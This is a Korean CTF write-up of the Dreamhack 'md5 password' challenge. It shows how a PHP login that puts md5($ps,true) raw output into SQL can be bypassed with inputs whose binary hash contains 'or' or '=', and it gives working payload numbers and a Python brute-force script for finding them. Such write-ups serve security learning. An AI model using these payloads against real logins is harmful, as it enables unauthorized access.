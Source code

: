 ```yaml
---
title: "PHP md5 (SQL Injection)"
excerpt: "php 의 md5 기능을 우회하여 sql injection 공격을 시도해보자."
categories:
    - dreamhack
tags:
    - wargame
    - php
    - md5
    - sqli
last_modified_at: 2023-09-12T09:13:00-05:00
---
```

## 문제
- [wargame.kr md5 password 워게임 Dreamhack](https://dreamhack.io/wargame/challenges/337)


## PHP md5
- md5 해시화를 이용하여 sql injection 공격을 시도할 수 있다.

### 분석
- php 의 md5 기능을 이용하여 사용자의 입력을 해시화 한다.
- 해시화 한 값을 이용하여 password 와 비교한다.

```sql
select * from admin_password where password='".md5($ps,true)."'
```

- md5(입력,true) : 16자리의 바이너리를 반환한다.
- md5(입력,flase) : 32 문자열 16진수를 반환한다.

### 공격

#### 방법 1 : or
- or 을 이용하여 password 인증을 우회해보자.
- 사용자의 입력을 md5 해시화를 진행하여 완성된 값에 `'or'` 이 존재하면 된다.

```
md5(입력,true)= aaa'or'bbb

select * from admin_password where password='aaa'or'bbb'
```

- or 앞 부분이 False 여도 뒷 부분이 true 이기 때문에 비밀번호 인증 우회가 가능하다.

- sql injection 공격 payload.

```
129581926211651571912466741651878684928

md5 = �T0D��o#��'or'8
```


#### 방법 2 : =
- = 을 이용하여 password 인증을 우회해보자.
- 사용자의 입력을 md5 해시화를 진행하여 완성된 값에 `'='문자` 이 존재하면 된다.

```
md5(입력,true) = asdfaskd'='asdf

select * from admin_password where password='asdfaskd'='asdf'
```

- 원리

```
where password='asdfaskd'='asdf'

는 먼저 앞 부분을 비교한다.

where (password='asdfaskd')='asdf'

where false='asdf' 

여기서 mysql false 의 타입은 tinyint 이고 값은 0 이다.
'asdf' 타입을 SIGNED 즉 int 형으로 바꿔서 비교를 진행한다.

따라서 비교하는 값은 다음과 같다.

where 0=0
```


- 직접 확인하기.

```sql
select false='123';
출력 = 0

select false='aaaa';
출력 = 1
```

- 여기서 주의해야 할 점이 있는데 `'123adfsf'` 와 같은 형태를 int 형으로 타입 변환하면 123 으로 변환되는 것을 확인할 수 있다.

```sql
select cast('123asdf' as SIGNED);
출력 = 123
```

- sql injection 공격 payload.

```
98750788
md5 = n�A�nI�^���h'='

하지만 다음 값은 실패한다.
38106544
md5 = &�p'='63@-��

왜냐하면
1. select * from admin_password where password='&�p'='63@-��'
2. select * from admin_password where false='63@-��'
3. select * from admin_password where false=63
4. select * from admin_password where 0=63

0과 63을 비교하는 형태가 되기 때문이다.
```


### 평문 값 찾기
- python 을 이용하여 `'='` 값이 들어가는 평문 값을 쉽게 찾아줄 수 있다.

```python
from hashlib import md5

key1 = b"'='"
key2 = b"'or'"
for i in range(100_000_000):
    e = md5(str(i).encode()).digest()
    if key1 in e:
        print(f'{key1} : {i} {e}')
    elif key2 in e:
        print(f'{key2} : {i} {e}')
```

## 참고 사이트
- [int의 종류 및 크기 tinyint, smallint, int, bigint 초간단 정리 (tistory.com)](https://heavening.tistory.com/85)
- [PHP: md5 - Manual](https://www.php.net/manual/en/function.md5.php)
- [mysql 온라인 컴파일러](https://onecompiler.com/mysql)
- [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
- [seunghunoh57/SQL-Injection: This program will generate a password that bypasses a PHP script using raw md5 encryption for its password. (github.com)](https://github.com/seunghunoh57/SQL-Injection)
